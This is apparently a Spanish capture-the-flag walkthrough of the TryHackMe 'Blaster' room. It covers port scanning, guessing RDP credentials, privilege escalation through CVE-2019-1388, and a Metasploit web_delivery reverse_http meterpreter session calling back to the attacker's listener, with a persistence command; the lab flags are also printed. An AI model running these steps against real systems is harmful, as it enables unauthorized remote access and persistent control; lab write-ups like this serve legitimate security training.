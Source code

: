 # Blaster v3

## Escaneo de puertos

Escaneamos la IP de la máquina usando `nmap`para encontrar los puertos abiertos y los servicios que tengan.

```
nmap -A -T4 -p- 10.10.10.249
```

Hay dos puertos abiertos: un servidor en web en el puerto 80 y un RDP en el 3389.

![[Pasted image 20250221152920.png]]
## Fuzzing

Accedemos al servidor web.

![[Pasted image 20250221152959.png]]

Es un servidor de Windows Server de IIS (Internet Information Services).

Abrimos el dirbuster y le hacemos fuzzing a la web para encontrar más directorios.

![[Pasted image 20250221153206.png]]

Encontramos un directorio llamado `retro`que puede ser importante.

![[Pasted image 20250221153427.png]]

## Investigating

Accedemos al mismo.

```
http://10.10.10.249/retro/
```

![[Pasted image 20250221153510.png]]

Encontramos un username, `Wade`y vemos que su contraseña está relacionada con la película "Ready Player One".

![[Pasted image 20250221153739.png]]

Buscamos el nombre del avatar de Wade en el juego. Es `Parzival`.

![[Pasted image 20250221153906.png]]

Accedemos por el puerto 3389 donde está el servicio RDP funcionando. Usamos las credenciales que hemos encontrad.

```
xfreerdp /u:wade /p:parzival /v:10.10.10.249
```

![[Pasted image 20250221154228.png]]

Se nos abre el escritorio remoto del cliente Wade.

![[Pasted image 20250221154325.png]]

Abrimos `user.txt`y tenemos la primera flag.

![[Pasted image 20250221154417.png]]

```
THM{HACK_PLAYER_ONE}
```

Miramos por la máquina y encontramos este CVE:

```
CVE-2019-1388
```

## Escalada de privilegios

También encontramos un ejecutable en el escritorio `hhupd`.

![[Pasted image 20250221155633.png]]

Lo ejecutamos y nos pide los credenciales del Administrador. Le damos a "Show more details".

![[Pasted image 20250221155916.png]]

Y luego "Show information about the publisher's certificate".

![[Pasted image 20250221155950.png]]

Hacemos clic en "VeriSign Commercial Software Publishers CA".

![[Pasted image 20250221160106.png]]

Cerramos la ventana y se los habrá abierto una pestaña nueva en Internet Explorer que no cargará porque no hay Internet.

![[Pasted image 20250221162229.png]]

Intentamos guardar la página haciendo clic en el engranaje arriba a la derecha y dándole a "File" y "Save as". Nos aparece un mensaje de error.

![[Pasted image 20250221162407.png]]

Le damos a "OK" y en el explorador de archivos escribimos `cmd.exe`.

![[Pasted image 20250221162543.png]]

Se nos abre el cmd y escribimos `whoami`para verificar que hemos hecho bien la escalada de privilegios.

![[Pasted image 20250221162633.png]]

Nos movemos al escritorio del Administrador y tenemos un fichero llamado `root.txt`.

![[Pasted image 20250221162727.png]]

Y obtenemos la flag:

![[Pasted image 20250221162811.png]]

```
THM{COIN_OPERATED_EXPLOITATION}
```

## Metasploit

Accedemos a la consola de metasploit.

```
msfconsole
```

Seleccionamos el siguiente exploit:

```
use exploit/multi/script/web_delivery
```

Mostramos los objetivos y seleccionamos el 2.

```
show targets
set target 2
```

![[Pasted image 20250221163459.png]]

Mostramos las opciones y asignamos la IP de nuestro equipo local en la VPN de tryhackme por el puerto 8082.

```
set LHOST 10.8.3.33
set LPORT 8082
```

Seleccionamos el siguiente payload:

```
set payload windows/meterpreter/reverse_http
```

![[Pasted image 20250221164025.png]]

Ejecutamos el exploit:

```
run -j
```

![[Pasted image 20250221164132.png]]

Copiamos el código anterior en el `cmd.exe`de antes y tendremos acceso remoto completo al sistema.

![[Pasted image 20250221164301.png]]

Con meterpreter, para que tenga persistencia escribimos el siguiente comando:

```
run persistence -X
```

















